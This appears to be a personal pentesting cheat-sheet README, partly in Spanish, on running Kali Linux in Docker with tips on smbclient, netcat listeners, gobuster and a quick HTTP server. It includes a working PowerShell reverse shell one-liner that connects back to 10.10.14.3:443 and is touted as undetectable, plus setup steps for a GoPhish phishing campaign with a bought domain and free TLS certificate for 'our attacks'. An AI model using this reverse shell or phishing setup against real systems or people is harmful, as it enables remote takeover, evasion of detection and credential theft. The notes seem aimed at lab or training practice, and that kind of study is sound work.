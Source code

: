 # kali_docker
Manual para usar kali con docker en una maquina con servidor x11
```console
~$ docker run -it --cap-add NET_ADMIN  --privileged --net=host --env="DISPLAY" --volume="$XAUTHORITY:/root/.Xauthority:rw" -v $(pwd):/home kalilinux/kali-rolling
```
## Agregar un usuario no root
Dentro del contendor de kali
```console
~#adduser username
```
Y agregarlo a grupo sudo
```console
~# usermod -aG sudo username
``` 
Para tener una consola bonita usar el comando `su` con el argumento `-s /bin/bash`
```console
~# su -s /bin/bash username
```
Otra opción es modificar el archivo `etc/passwd` y modificar el shell por defecto del usuario 
```
username:x:1000:1000::/home/rodrigo:/bin/bash
```

## Uso de SMB Client

```console
smbclient  -N \\\\10.10.10.27\\carpeta -U rodrigo 
```
Once logged you can use `ls` command to list de diretories and `get` to copy a file to your local machine.

## Reverse Shell
In this link there is a ReverseShell CheatSheet

[Reverse Shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)


This is an example of a windows shell script that it's not detectable as malicious 
```shell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## cat - type
`type` is the windows equivalent linux `cat` command

## Quikly mount http server
Use the command
```console
python3 -m http.server 80
```
It will mount an http server listening on the port 80, and it  will serve any file in the current working directory

## explainshell.com

In the [explainshell.com](https://explainshell.com/) site you can input a command and it will discribe what it does.

## Port listener with netcat

Use netcat to setup a net listener:
```console
nc -lvnp 443
-l listen mode
-v verbose
-n numeric-only IP 
-p port 
```

## Gobuster

List directories of a web server. Use:
```console
gobuster dir -u 10.10.10.28  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
That wordlist in the example is one of the wordlists that comes with the `dirbuster` command instalation.

# Phising with GoPhish
A TODO list needed in order to use GoPhish
- Get a server with a public IP address (you can use a VPS service like [digital ocean](https://www.digitalocean.com/) or [OVH](https://www.ovhcloud.com/en/vps/cheap-vps/) 
- Download the GoPhish code from its [git hub repository](https://github.com/gophish/gophish)
- Run de GoPhish server 

It is desirable that we don't use IP addresses in out attacks, it is better to have a domain, you can buy a domain in sites like [GoDaddy](https://www.godaddy.com/). Once we have a domain we need to get a certificate for it. There are sites like  [ZeroSSL](https://zerossl.com/) which can issue a certificate for FREE that ara valid for 90 Days. In order to proof that we have control of the domain ZeroSSL ask you to add some DNS register, we add this register in the DNS configuration of the domain provider.

